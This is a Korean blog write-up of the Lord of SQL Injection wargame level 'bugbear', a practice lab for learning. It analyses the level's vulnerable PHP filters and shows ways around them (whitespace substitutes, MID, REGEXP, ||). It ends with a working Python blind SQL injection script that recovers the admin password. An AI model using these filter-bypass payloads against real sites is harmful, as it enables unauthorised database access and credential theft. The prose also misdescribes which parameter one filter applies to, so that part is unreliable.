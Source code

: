```yaml
---
title: Lord of SQL Injection Write Up No.13 Bugbear
date: 2019-08-24 01:53:32
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 13번 bugbear 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

`'`, `substr`, `ascii`, `=`을 대소문자 구분 없이 포함하지 않고 Blind SQL Injection을 하여 `pw`를 알아낼 수 있는지 확인한다.

### 필요 배경 지식

#### addslashes

```php
string addslashes ( string $str )
```

- `addslashes` 함수는 데이터베이스 질의 등에서 처리할 필요가 있는 문자(홑따옴표('), 겹따옴표("), 백슬래시(\\), NUL(NULL 바이트)) 앞에 백슬래시를 붙인 문자열을 반환한다.
- php의 `addslashes` 함수에 대해 잘 모르겠다면 다음 링크를 참고하자.
- [PHP: addslashes - Manual](http://php.net/manual/kr/function.addslashes.php)

#### 공백문자 대체

1. CR(Carriage Return) 이용
   ASCII Code 표를 살펴보면 16진수로 `0x0D`는 Carriage Return에 해당한다.
   이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.
2. LF(Line Feed)
   ASCII Code 표를 살펴보면 16진수로 `0x0A`는 Line Feed에 해당한다.
   이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.
3. Tab
   ASCII Code 표를 살펴보면 16진수로 `0x09`는 Tab에 해당한다.
   이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.
4. 주석
   MySQL에서 구문 사이에 주석을 넣으면 공백이 없어도 정상적으로 동작한다.

### 소스 코드 분석

bugbear 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe");
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe");
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe");
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe");
```

- GET 방식으로 `pw`를 받고, `pw`에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
- 또한, **대소문자 구분 없이** `pw`에 `'` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.
- 또한, **대소문자 구분 없이** `no`에 `'`, `substr`, `ascii`, `=`, `or`, `and`, `(공백)`, `like`, `0x` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear");
```

- 받은 `pw`와 `no`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- `$result['id']`에 참이 되는 어떤 값이든 들어 있으면 응답에 `"Hello "`와 `$result[id]` 값을 붙인 문자열이 포함된다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `pw`와 GET 방식으로 전달받은 `pw`가 같음'이다. 즉, 실제 데이터베이스에 저장된 `pw`를 알아내서 전달해야 한다.

## Solution

1. `MID` 함수, `REGEXP` 활용

   ```python
   import urllib.request
   from urllib.parse import quote

   key = ""

   pwlen = 0

   for i in range(1, 20):
       url = "http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?no="
       data = '-1/**/||/**/length(pw)/**/regexp/**/"^{}$"#'.format(str(i)) # = 을 못쓰므로 LIKE 로 수정
       print(data)
       data = quote(data)
       re = urllib.request.Request(url + data)

       re.add_header(
           "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
       re.add_header(
           "Cookie", "PHPSESSID=bb9ultdedrmse87p4473hmms81"
       )

       req = urllib.request.urlopen(re)

       if str(req.read()).find("Hello admin") != -1:
           pwlen = i
           print('pw length : ' + str(pwlen))
           break

   for i in range(1, pwlen + 1):
       for j in range(32, 127):
           url = "http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?no="
           data = '-1/**/||/**/mid(pw,1,{})/**/regexp/**/"^{}$"#'.format(
               str(i), key + chr(j))
           print(data)
           data = quote(data)
           re = urllib.request.Request(url + data)

           re.add_header(
               "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
           re.add_header(
               "Cookie", "PHPSESSID=bb9ultdedrmse87p4473hmms81"
           )

           req = urllib.request.urlopen(re)

           if str(req.read()).find("Hello admin") != -1:
               key += chr(j).lower()
               print(key)
               break
   print(key)
   ```

   이러한 코드를 실행하면 결과값으로 `735c2773` 를 출력한다.
   이를 GET 방식으로 `pw`의 값으로 전달하면 풀린다.

   ```url
   http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?pw=735c2773
   ```
